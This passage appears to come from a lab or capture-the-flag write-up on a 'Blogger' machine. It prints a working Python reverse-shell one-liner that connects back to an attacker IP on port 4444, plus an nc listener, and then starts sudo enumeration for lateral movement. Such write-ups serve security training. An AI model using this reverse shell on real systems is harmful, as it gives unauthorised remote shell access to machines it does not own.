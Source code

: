 #### Reverse Shell
```shell
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.204",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
#### Listener
```shell
nc -lnvp 4444
```
![01-Blogger-7](00-Assets/01-Blogger-7.png)

```shell
cd /home/james
```
![01-Blogger-8](00-Assets/01-Blogger-8.png)


## Lateral Movement
We found a file called `wp-config.php` but the credentials there did no work for us.
### Basic Enumeration
```shell
sudo -l

sudo -V
Sudo version 1.8.16
```
